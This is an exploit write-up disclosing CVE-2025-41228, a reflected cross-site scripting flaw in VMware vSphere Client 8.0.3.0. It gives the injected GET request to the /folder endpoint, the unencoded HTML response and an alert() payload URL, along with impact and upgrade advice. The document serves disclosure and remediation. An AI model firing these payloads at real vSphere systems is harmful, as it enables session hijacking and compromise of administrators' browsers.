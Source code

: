 # VMware vSphere Client 8.0.3.0 - Reflected Cross-Site Scripting (XSS)

- **Exploit Title**: VMware vSphere Client 8.0.3.0 - Reflected Cross-Site Scripting (XSS)
- **Date**: 2025-08-08
- **Exploit Author**: Imraan Khan (Lich-Sec)
- **Vendor Homepage**: [https://www.vmware.com](https://www.vmware.com)
- **Version**: vSphere Client 8.0.3.0
- **Tested On**: Web interface (Chrome 138)
- **CVE**: CVE-2025-41228
- **Category**: WebApps

---

## Description

A reflected Cross-Site Scripting (XSS) vulnerability exists in VMware vSphere Client version 8.0.3.0. The application fails to sanitize input passed via a query string to the `/folder` endpoint, resulting in arbitrary JavaScript execution when the reflected value is rendered into an HTML form’s `action` attribute.

The vulnerability was confirmed by intercepting a request through Burp Suite and injecting a malicious payload. This XSS only successfully executes when the response is rendered by a browser within an **active session**, such as one initiated via prior authentication.

---

## Steps to Reproduce

### 1. Initiate request to vulnerable endpoint

Open a browser and navigate to:

```
https://host/folder?ht7j4
```

This sends a benign request that you will intercept.

---

### 2. Intercept and modify the request using Burp Suite

With Burp Suite proxy enabled, capture the request and modify the query string to inject the XSS payload:

```
GET /folder?ht7j4"><script>alert('ThisIsAnXSSBug')</script>tnkav=1 HTTP/2
Host: 192.168.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Referer: https://192.168.x.x/
Accept: text/html,application/xhtml+xml
```

Then forward the request to the server.

---

### 3. Observe the reflected payload in the HTTP response

In the Burp HTTP Response, the payload appears unencoded within the HTML:

```html
<form action="/folder?ht7j4"><script>alert('ThisIsAnXSSBug')</script>tnkav=1" method="POST">
  <input name="VMware-CSRF-Token" type="hidden" value="..." />
```

This confirms that the payload is reflected back into the HTML in a dangerous context — inside a form’s `action` attribute — allowing script execution.

---

### 4. Trigger script execution

Because the XSS is reflected but only renders within the full browser context, to observe the popup:

- Forward the exact same malicious request using Burp **with an authenticated session (cookies included)**.
- OR, use Burp's **"Open in Browser"** feature (with session cookies) to request the full response as a browser would.

Upon rendering the page, the browser will execute the injected `<script>`.

Example payload URL:

```
https://192.168.x.x/folder?ht7j4"><script>alert(1)</script>tnkav=1
```

---

## Impact

Successful exploitation results in arbitrary JavaScript execution within the vSphere Client’s web interface. This could be leveraged for phishing, session hijacking, or further compromise of the admin's browser session.

---

## Recommendation

Upgrade to VMware vCenter Server version **8.0 U3e or later**, which remediates **CVE-2025-41228**.

---

## References

- https://github.com/stSLAYER/Lich-Sec/tree/main/CVE/CVE-2025-41228
- https://nvd.nist.gov/vuln/detail/CVE-2025-41228
- https://www.vmware.com/security/advisories
